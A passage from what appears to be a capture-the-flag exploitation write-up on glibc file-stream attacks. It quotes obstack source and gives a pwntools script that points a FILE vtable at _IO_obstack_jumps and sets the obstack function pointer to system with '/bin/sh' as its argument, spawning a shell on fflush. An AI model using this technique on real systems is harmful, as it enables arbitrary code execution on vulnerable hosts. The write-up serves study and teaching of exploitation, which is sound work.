 ```c
    {
      new_chunk->prev = old_chunk->prev;
      CALL_FREEFUN (h, old_chunk);
    }

  h->object_base = object_base;
  h->next_free = h->object_base + obj_size;
  /* The new chunk certainly contains no empty object yet.  */
  h->maybe_empty_object = 0;
}
# ifdef _LIBC
libc_hidden_def (_obstack_newchunk)
# endif
```

The interesting part of the function is the call to the `CALL_CHUNKFUN` macro that calls a raw *unencrypted* function pointer referenced by the `obstack` structure with either a controlled argument (`(h)->extra_arg`) or only with the size.

```c
# define CALL_FREEFUN(h, old_chunk) \
  do { \
      if ((h)->use_extra_arg)						      \
	(*(h)->freefun)((h)->extra_arg, (old_chunk));			      \
      else								      \
	(*(void (*)(void *))(h)->freefun)((old_chunk));		      \
    } while (0)
```

If I summarize, to call `system("/bin/sh"` we need to have:
- `__o->next_free + 1 > __o->chunk_limit`
- `(h)->freefun` = `&system`
- `(h)->extra_arg` = `&"/bin/sh"`
- `(h)->use_extra_arg` != 0

Which gives:
```py
_IO_obstack_jumps = leak + 0x1E9260
pwn.log.info(f"_IO_obstack_jumps: {hex(_IO_obstack_jumps)}")

# edit vtable => _IO_obstack_jumps
write_ptr(pwn.p64(_IO_obstack_jumps - 8 * 9), File.vtable)
write_ptr(pwn.p64(heap + 0x2a0), File.obstack)

partial_write(pwn.p8(0xff), File._IO_read_base)

write_ptr(pwn.p64(libc.sym.system), obstack.chunkfun) # fn ptr, system
write_ptr(pwn.p64(next(libc.search(b'/bin/sh'))), obstack.extra_arg) # arg
partial_write(pwn.p8(True), obstack.use_extra_arg)

fflush()
# system("/bin/sh")
```
